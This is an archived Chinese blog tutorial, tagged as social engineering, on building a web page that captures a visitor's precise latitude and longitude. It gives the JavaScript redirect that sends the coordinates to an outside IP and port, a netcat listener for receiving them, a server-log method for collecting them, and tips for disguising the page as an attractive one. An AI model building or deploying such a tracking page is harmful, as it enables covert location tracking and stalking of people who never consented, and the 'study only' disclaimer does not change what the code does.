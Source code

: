 <!--yml
category: 社会工程
date: 2022-11-10 10:28:49
-->

# 简单2步教你获取任意设备高精度定位-FancyPig's blog

> 来源：[https://www.iculture.cc/knowledge/pig=7971](https://www.iculture.cc/knowledge/pig=7971)

## 声明

以下教程仅用于学习研究目的，请勿用于非法用途

## 相关阅读

之前我们关于**[IP定位](https://www.iculture.cc/tag/ip%E5%AE%9A%E4%BD%8D)**的出过很多期教程了

但是很多人觉得麻烦，这次我们将再做一个简化，如何更简单的获取IP定位呢？

## 简介

本教程将教您通过一个页面，完成高精度定位的获取

## 在线体验

## 视频教程

## 图文教程

### 体验

点击获取定位，可以读取到精度和纬度信息

<figure class="wp-block-image size-full">![图片[1]-简单2步教你获取任意设备高精度定位-FancyPig's blog](img/e35154f10a9ecc3ba8f731edb05aff10.png)</figure>

这里会具体显示

<figure class="wp-block-image size-full">![图片[2]-简单2步教你获取任意设备高精度定位-FancyPig's blog](img/4d5f1ca3fb82b6234695be6803a9f44f.png)</figure>

但并不会传到服务器的日志

### 如何记录高精度定位信息

那么我们开启第26行代码，去掉`//`，然后填写您的网站路径或者是IP:端口

```
document.location="https://www.iculture.cc/demo/geo_result/"+ latlong;
```

可以通过2种方式来记录请求

*   方法一：服务器监听端口记录请求
*   方法二：服务器日志记录请求

#### 方法一

第一种是服务端口（记得检查安全组配置是否允许该端口，以及服务器防火墙是否开启该端口）

第26行代码，例如，我想让他监听服务器的5432端口

```
document.location="http://39.106.66.45:5432/"+ latlong;
```

然后，在服务器终端中输入

```
nc -lvvp 5432
```

等待请求结果

<figure class="wp-block-image size-large">![图片[3]-简单2步教你获取任意设备高精度定位-FancyPig's blog](img/533bcddcc96ad5fa3d19ace9dd26a86e.png)</figure>

#### 方法二

当然，如果你不会开启服务器端口，您也可以直接使用宝塔面板的日志功能，我们将重定向链接随意修改，可以是一个不存在的路径，但要在服务器的域名路径下， 第26行代码，例如

```
document.location="https://www.iculture.cc/demo/geo_result/"+ latlong;
```

然后去宝塔面板`/www/wwwlogs/`下寻找相关的日志文件，再从日志文件中查找日志详情即可（视频中有讲）

### 其他基础教程

如果您没有服务器，我们为您推荐

#### 特价服务器购买

下面是一些腾讯云的活动，强烈建议选择腾讯云学生机，一年也就400多块钱（2核4G 3M带宽）

当然您也可以选择[阿里云服务器](http://iculture.cc/aliyun)，或者[vultr国外服务器](https://iculture.cc/vultr)

#### 网站搭建教程

## 相关代码及工具

### 简陋版源代码

最基本的框架已经出来了，需要美化可以自行找模板

### URL编码/解码工具

下面是常用的在线URL编码解码工具

当然，您也可以使用本地离线工具

### 经纬度查询工具

你只需要输入获取的纬度,经度

然后用逗号隔开查询即可

## 美化问题

至于页面美化的问题，这个你可以随便找一个好看的页面，然后把提交按钮上加入`onclick="getLocation()"`，同时引入相关的javascript代码，非常简单！

我们这里以[乔碧萝](https://www.iculture.cc/knowledge/pig=261)之前的动漫款式为例

<figure class="wp-block-image size-full">![图片[4]-简单2步教你获取任意设备高精度定位-FancyPig's blog](img/ee5c462c3e59a3b91970b51c3fb1ff32.png)</figure>

下面讲一下美化的思路，附源码